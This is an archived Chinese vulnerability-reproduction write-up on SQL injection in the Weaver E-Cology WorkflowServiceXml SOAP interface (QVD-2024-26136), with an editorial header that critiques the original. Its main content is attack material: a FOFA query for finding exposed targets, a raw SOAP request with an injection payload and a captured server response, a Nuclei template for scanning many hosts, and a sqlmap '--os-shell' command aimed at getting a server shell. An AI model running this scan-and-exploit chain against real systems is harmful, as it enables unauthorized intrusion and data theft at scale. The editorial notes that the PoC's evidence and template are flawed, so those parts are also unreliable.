



# QVD-2024-26136 漏洞复现 poc （大范围）

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：泛微E-Cology WorkflowServiceXml
- 文献类型：SQL注入复现与模板
- 版本、权限及部署边界：QVD-2024-26136，文称e-cology9<10.64.1；SOAP接口鉴权配置未说明
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. QVD编号错误放cnvd字段，FOFA字段仅搜索语句，正文完整应纠正元数据
2. 1=1 AND2=2返回已有工作流不能证明SQL注入，缺false对照或DB独立表达式证据；匹配system/administrator/提醒高度依赖业务内容易漏误报
3. Nuclei转义花括号Host错误、HTTP头/body空行缺失、verified=true不是审计验证；固定Content-Length需重算
4. 直接--os-shell超出SQLi证明且依DB权限/操作系统条件，不把截图当已获取服务器权限
5. 版本9与10.64.1应确认是产品与补丁包不同口径，官方修复页未指具体补丁；应归OA厂商而非杂项

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/lrzOpZ72cd5erX5Ce8QA5g>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<http://schemas.xmlsoap.org/soap/envelope/>
- 原文参考链接（未重新核验）：<http://webservices.workflow.weaver>
- 原文参考链接（未重新核验）：<http://www.w3.org/2001/XMLSchema>
- 原文参考链接（未重新核验）：<http://www.w3.org/2001/XMLSchema-instance>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lrzOpZ72cd5erX5Ce8QA5g)

免责申明：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**

01

—

漏洞名称

泛微 E-Cology WorkflowServiceXml SQL 注入漏洞

02

—  

漏洞影响

泛微 e-cology9 < 10.64.1

03

—  

漏洞描述

泛微 E-Cology 是一款协同管理平台，旨在为中大型组织创建全新的高效协同办公环境。身份认证、电子签名、电子签章、数据存证让合同全程数字化。包含流程、门户、知识、人事、沟通、客户、项目、财务等 20 多个功能模块。该系统 WorkflowServiceXml 接口处未对用户输入进行有效过滤，直接将其拼接进了 SQL 语句中，导致 SQL 注入漏洞，会导致数据泄露。

04

—  

FOFA 搜索语句

  

```
app="泛微-OA（e-cology）"

```



05

—  

漏洞复现

POC 数据包，其中 payload 是 1=1 AND 2=2

```
POST /services/WorkflowServiceXml HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Content-Length: 422
Connection: close
Content-Type: text/xml
Accept-Encoding: gzip
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver">
<soapenv:Header/>
<soapenv:Body>
<web:getHendledWorkflowRequestList>
<web:in0>1</web:in0>
<web:in1>1</web:in1>
<web:in2>1</web:in2>
<web:in3>1</web:in3>
<web:in4>
<web:string>1=1 AND 2=2</web:string>
</web:in4>
</web:getHendledWorkflowRequestList>
</soapenv:Body>
</soapenv:Envelope>

```

响应内容如下

```
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Cache-Control: private
Content-Type: text/xml; charset=UTF-8
Date: Wed, 17 Jul 2024 02:13:44 GMT
Server: WVS
Set-Cookie: ecology_JSessionid=aaaoDEbNHDKy05HlKOa8y; path=/
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><soap:Body><ns1:getHendledWorkflowRequestListResponse xmlns:ns1="http://webservices.workflow.weaver"><ns1:out><ns1:string><WorkflowRequestInfo>
  <requestId>106746</requestId>
  <requestName>~`~`7 会议取消`~`8 The meeting is canceled`~`~:-~`~`7 系统管理员`~`8 system administrator`~`9 系統管理員`~`~-2023-11-15</requestName>
  <requestLevel>0</requestLevel>
  <workflowBaseInfo>
    <workflowId>1</workflowId>
    <workflowName>~`~`7 系统提醒工作流`~`8 System alert workflow`~`9 系統提醒工作流`~`~</workflowName>
    <workflowTypeId></workflowTypeId>
    <workflowTypeName></workflowTypeName>
  </workflowBaseInfo>
  <currentNodeName>~`~`7 提醒`~`8 remind`~`9 提醒`~`~</currentNodeName>
  <currentNodeId>2</currentNodeId>
  <status>~`~`7 提醒`~`8 remind`~`9 提醒`~`~</status>
  <creatorId>1</creatorId>
  <creatorName>~`~`7 系统管理员`~`8 system administrator`~`9 系統管理員`~`~</creatorName>
  <createTime>2023-11-15 09:48:27</createTime>
  <lastOperatorName>~`~`7 系统管理员`~`8 system administrator`~`9 系統管理員`~`~</lastOperatorName>
  <lastOperateTime>2023-11-15 09:48:27</lastOperateTime>
  <receiveTime>2023-11-15 09:48:27</receiveTime>
  <canView>false</canView>
  <canEdit>false</canEdit>
  <mustInputRemark>false</mustInputRemark>
  <needAffirmance>false</needAffirmance>
</WorkflowRequestInfo></ns1:string></ns1:out></ns1:getHendledWorkflowRequestListResponse></soap:Body></soap:Envelope>

```

漏洞复现成功

06

—  

nuclei poc

poc 文件内容如下

```
id: QVD-2024-26136
info:
  name: 泛微E-Cology WorkflowServiceXml SQL注入漏洞
  author: fgz
  severity: high
  description: 泛微E-Cology 是一款协同管理平台，旨在为中大型组织创建全新的高效协同办公环境。身份认证、电子签名、电子签章、数据存证让合同全程数字化。包含流程、门户、知识、人事、沟通、客户、项目、财务等 20多个功能模块。该系统WorkflowServiceXml接口处未对用户输入进行有效过滤，直接将其拼接进了SQL语句中，导致SQL注入漏洞，会导致数据泄露。
  metadata:
    max-request: 1
    fofa-query: app="泛微-OA（e-cology）"
    verified: true
requests:
  - raw:
      - |+
        POST /services/WorkflowServiceXml HTTP/1.1
        Host: \{\{Hostname\}\}
        User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
        Content-Type: text/xml
        Connection: close
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver">
        <soapenv:Header/>
        <soapenv:Body>
        <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
        <web:in4>
        <web:string>1=1 AND 2=2</web:string>
        </web:in4>
        </web:getHendledWorkflowRequestList>
        </soapenv:Body>
        </soapenv:Envelope>
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200 && contains(body, 'system') && contains(body, 'administrator') && contains(body, '提醒')"

```



07

—  

sqlmap

将上述 POC 数据包写入 1.txt

执行

```
python sqlmap.py -r 1.txt  --os-shell

```



08

—  

修复建议

升级到最新版本。

或者下载官方补丁修复漏洞

https://www.weaver.com.cn/cs/securityDownload.html#

**~~~ 少侠点个赞再走~~~**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
